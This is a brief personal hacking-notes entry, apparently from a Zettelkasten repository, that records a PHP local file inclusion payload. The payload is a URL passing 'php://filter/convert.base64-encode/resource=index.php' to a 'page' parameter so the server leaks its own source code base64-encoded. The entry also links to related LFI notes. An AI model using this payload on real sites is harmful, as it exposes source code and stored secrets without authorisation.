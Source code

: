 # php LFI include PHP filter URL base 64 encode
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
php://filter/convert.base64-encode/resource=
```

` zet/20221003150580/README.md `

# Related

- [20221014185955](/zet/20221014185955/README.md) kb file named kb/hacking/php/lfi.md
- [20221003150581](/zet/20221003150581/README.md) php LFI include PHP filter URL
- ~/kb/hacking/php/lfi.md

Tags:

    #hacking #lfi 
